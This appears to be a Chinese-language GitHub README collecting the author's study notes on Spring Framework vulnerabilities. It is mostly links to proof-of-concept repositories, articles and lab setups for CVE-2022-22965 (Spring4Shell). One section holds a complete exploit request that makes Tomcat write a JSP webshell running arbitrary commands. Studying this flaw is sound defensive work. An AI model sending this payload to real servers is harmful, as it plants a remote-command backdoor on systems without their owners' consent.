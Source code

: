 # HackSpring-永恒之春

本项目用来致敬全宇宙最无敌Spring框架！同时也记录自己在学习Spring漏洞过程中遇到的一些内容。本项目会持续更新，本项目创建于2022年3月30日，最近的一次更新时间为2022年4月5日。作者：[0e0w](https://github.com/0e0w)

- [01-Spring基础知识]()
- [02-Spring框架识别]()
- [03-Spring上层建筑]()
- [04-Spring漏洞汇总]()
- [05-Spring检测利用]()
- [06-Spring漏洞修复]()
- [07-Spring分析文章]()
- [08-Spring靶场环境]()

## 01-Spring基础知识

## 02-Spring框架识别

- 待更新

## 03-Spring上层建筑

**Spring + ？ = rce ！**

## 04-Spring漏洞汇总

- CVE-2022-22965

## 05-Spring检测利用

如何判断一个网站是否存在Spring漏洞？如何查找内网中存在Sprin漏洞？

一、Payload

```
POST / HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 761

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22S%22.equals(request.getParameter(%22Tomcat%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=Shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

二、源码检测
- https://github.com/webraybtl/springcore_detect

三、漏洞验证

- 测试时发现webshell只能写入一次！第二次失败！

四、漏洞扫描

五、其他工具
- https://github.com/TheGejr/SpringShell
- https://github.com/BobTheShoplifter/Spring4Shell-POC
- https://github.com/kh4sh3i/Spring-CVE
- https://github.com/GuayoyoCyber/CVE-2022-22965
- https://github.com/viniciuspereiras/CVE-2022-22965-poc
- https://github.com/reznok/Spring4Shell-POC
- https://github.com/jschauma/check-springshell
- https://github.com/colincowie/Safer_PoC_CVE-2022-22965
- https://github.com/alt3kx/CVE-2022-22965_PoC
- https://github.com/exploitbin/CVE-2022-22963-Spring-Core-RCE
- https://github.com/light-Life/CVE-2022-22965-GUItools
- https://github.com/Mr-xn/spring-core-rce
- https://github.com/Kirill89/CVE-2022-22965-PoC
- https://github.com/Axx8/SpringFramework_CVE-2022-22965_RCE
- https://github.com/likewhite/CVE-2022-22965
- https://github.com/mebibite/springhound
- https://github.com/irgoncalves/f5-waf-enforce-sig-Spring4Shell
- https://github.com/hktalent/spring-spel-0day-poc
- https://github.com/darryk10/CVE-2022-22963
- https://github.com/WeiJiLab/Spring4Shell-POC

## 06-Spring漏洞修复

## 07-Spring分析文章

- https://www.cyberkendra.com/2022/03/springshell-rce-0-day-vulnerability.html
- https://bugalert.org/content/notices/2022-03-29-spring.html
- https://websecured.io/blog/624411cf775ad17d72274d16/spring4shell-poc
- https://www.springcloud.io/post/2022-03/spring-0day-vulnerability
- https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement

## 08-Spring靶场环境

- https://github.com/jbaines-r7/spring4shell_vulnapp
- https://github.com/Kirill89/CVE-2022-22965-PoC
- https://github.com/DDuarte/springshell-rce-poc
- https://github.com/XuCcc/VulEnv

[![Stargazers over time](https://starchart.cc//HackJava/Spring.svg)](https://starchart.cc/HackJava/Spring)

